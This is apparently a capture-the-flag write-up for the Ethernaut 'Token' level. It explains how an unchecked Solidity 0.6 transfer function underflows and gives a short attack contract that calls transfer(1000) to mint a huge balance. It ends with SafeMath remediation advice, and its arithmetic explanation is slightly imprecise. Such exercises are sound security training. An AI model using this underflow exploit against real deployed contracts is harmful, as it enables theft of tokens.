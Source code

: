 # Token

![https://ethernaut.openzeppelin.com/imgs/BigLevel5.svg](https://ethernaut.openzeppelin.com/imgs/BigLevel5.svg)

# Objectives

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

# Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

# Analysis

This challenge wants us to increase the balance of the token in our address, initially we start with 20 tokens. We can set the balance in two places, `constructor()` and `transfer()`, we will look into transfer function - 

```solidity
function transfer(address _to, uint _value) public returns (bool) {
  require(balances[msg.sender] - _value >= 0);
  balances[msg.sender] -= _value;
  balances[_to] += _value;
  return true;
}
```

It takes `address` and `uint` or `uint256` as parameters, where it checks if the balances of the current `msg.sender` whether more than or equal to zero by subtracting the `value`. Once the check passes, it will transfer out the balance from the `msg.sender` and transfer it to the `to` address. Looks pretty normal. However, the catch is this function uses `solidity 0.6.0` version, where it does not use `SafeMath` for any mathematical calculations. We can use this loophole to perform `Overflows` and `Underflows` in this function. So what is `Overflows` and `Underflows`?

## Understanding `Overflows` & `Underflows`

An overflow is when a number gets incremented above its maximum value. Solidity `uint256` can handle up to `256` bit numbers (up to 2^256 - 1), so incrementing by 1 would result into 0.

```
  0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
+ 0x000000000000000000000000000000000001
----------------------------------------
= 0x000000000000000000000000000000000000
```

A perfect example could be an Odometer.

![https://miro.medium.com/max/440/0*TqqC7Raq_6sW7QdG.webp](https://miro.medium.com/max/440/0*TqqC7Raq_6sW7QdG.webp)

Once it reaches the maximum reading, the odometer or trip meter restarts from zero, this is known as odometer rollover.

Likewise, an Underflow is the inverse case, when the number is unsigned, decrementing it beyond 0 will case an underflow, resulting in the maximum value.

```
  0x000000000000000000000000000000000000
- 0x000000000000000000000000000000000001
----------------------------------------
= 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
```

# AntiSec

In order to hack this contract, all we have to do is perform underflow or overflow in the `transfer` function. So if we send `1000` as value, the unsigned integer won’t be able to handle it, and we will end up with more tokens. How?

Our, `Initial Balance = 20 Tokens`

The calculation requires the balances of the msg.sender subtract by value to be greater or equal to 0.

So if we send, 1000, in normal mathematical sense the result will be something like this,

```
20 - 1000 = -980
```

However, it case of unsigned integer, the result will be different - 

```
20 - 1000 = (2^256 - 1) - 980 which is greater than 0
```

So we end up with lots of token.

I will fire up my `remix` IDE and write a malicious contract, and call the `transfer` function from the malicious contract to perform an overflow.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IToken {
    function balanceOf(address) external view returns (uint256);
    function transfer(address to, uint256 value) external returns (bool);
}

contract AttackToken {

    constructor(address _tokenAddress) {
        IToken(_tokenAddress).transfer(msg.sender, 1000);
    }
}
```

Once the transaction goes through, we can check our new balances by

```jsx
await contract.balanceOf(player)
```

# Key Takeaways

Overflows are very common in solidity and must be checked for with control statements such as:

```solidity
if (a + c > a) {
	a = a + c;
}
```

An easier alternatives is to use [OpenZeppelin’s SafeMath](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol) library that automatically checks for overflows and underflows in all the mathematical operators. The resulting code looks like this:

```solidity
a = a.add(c);
```

If there is an overflow, the code will revert.
